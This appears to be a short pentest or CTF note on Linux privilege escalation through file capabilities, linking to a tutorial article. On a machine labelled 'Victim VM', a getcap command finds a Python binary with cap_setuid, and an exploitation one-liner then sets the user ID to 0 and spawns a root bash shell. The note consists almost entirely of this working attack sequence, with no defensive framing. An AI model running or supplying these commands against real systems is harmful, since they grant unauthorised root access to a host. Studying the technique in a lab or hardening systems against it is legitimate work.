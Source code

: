 [Linux Priv. Esc. Capabilities](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)** <- Check.**
### Victim VM
```bash
$ getcap -r / 2>/dev/null
	/usr/bin/python2.6 = cap_setuid+ep
```
### Exploitation
```bash
$ /usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```